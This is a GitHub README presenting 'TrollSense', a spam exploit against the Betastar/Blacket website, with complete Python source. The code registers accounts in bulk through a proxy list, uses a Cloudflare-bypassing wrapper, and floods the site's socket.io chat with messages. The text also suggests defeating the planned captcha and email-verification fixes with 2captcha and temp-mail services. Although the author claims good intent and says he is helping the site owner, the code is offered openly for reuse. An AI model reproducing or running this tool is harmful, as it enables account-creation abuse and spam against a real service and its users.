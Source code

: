 ## I (l2vy7) discovered a HUGE spam exploit on Betastar.
All Betastar/Blacket API endpoints are insecure, and everyone knows that.  
But now, since Betastar has a chat function, and its insecurity makes exploits very awful.  


### How it's made: TrollSense for Betastar
Basically, I made a separate (private) proxy generator, and copied over the proxies to proxies.txt in the folder, and set up a proxy lister.  
I also implemented a CloudFlare bypassing ```requests``` wrapper because I'm not waiting hours for Undetected ChromeDriver to work.  
Since all logins are ip-based, and each time you load a page in Betastar, it checks with the login information provider, you don't even have to work with any HTTP cookies or anything. Just direct IPs, you can even skip the login information checking process if you want.  
After that, I just loop through the proxies, make accounts with random names and the password "THEWORLDISONFIRE", check for invalid proxies, rinse and repeat.  
Then, I find existing accounts and extend the current accounts if the accounts file exists.  
Finally, I loop through the working ips with accounts linked to them, use a requests session to connect to the chat server via a socketio-python client and the current proxy, and emit "smes" with a set message attached.


### How it stopped being made: Communication with Xotic.
He will implement captchas (can be bypassed with 2captcha and/or API endpoints will be left vulnerable) on registration pages, along with possible email verification (can be bypassed by Tempmail APIs). However, the API endpoints may still be insecure. I will update this if necessary and will try to give Xotic instructions on how to fix it.
Though I'm not entirely sure if this will affect socket.io data or the registration API, I'm 99% sure he will do something to stop this from working.  


I just kept this here as a documentation on how vulnerable websites can be easily exploited.  
**I'm helping Xotic fix this. Please note that I meant no harm in making this exploit.**

## The full code
I know you skids want the code, so here we go.  
This took around 45 minutes to an hour to develop and proxy scraping took like 30 minutes.

```py
from requests.exceptions import *
from os.path import exists
from faker import Faker
import cloudscraper
import traceback
import requests
import socketio
import logging
import random
import string
import base64
import sys

fake = Faker()

ips = []

for x in open('proxies.txt', 'r').read().split('\n'):
    scraper = cloudscraper.create_scraper(
        browser={
            'browser': 'chrome',
            'platform': 'android',
            'desktop': False
        },
        disableCloudflareV1=True
    )

    try:
        resp = scraper.post("http://betastar.org/api/register/", headers = {"User-Agent" : fake.chrome()}, data=("username=" + ''.join(random.choices(string.ascii_uppercase + string.digits, k = 7)) + "&password=" + base64.b64encode("THEWORLDISONFIRE".encode("utf-8")).decode("utf-8") ), proxies={"http" : 'http://'+x})
        print('Account created.')
        ips.append(x)
    except ProxyError as e:
        pass
    except HTTPError as e:
        pass
    except TooManyRedirects as e:
        pass
    except Exception as e:
        pass

if exists('accounts.txt'):
    ips.extend(open('accounts.txt', 'r').read().split('\n'))

for x in ips:
    with open('accounts.txt', 'w') as x1:
        x1.write(x + '\n')
    session = requests.session()
    session.proxies = {"http" : "http://"+x}
    sio = socketio.Client(http_session=session)
    sio.connect(
        'http://betastar.org/chat/',
        transports='websocket'
    )
    sio.emit('smes', 'Insecure API endpoint test worked.')
    sio.disconnect()
```
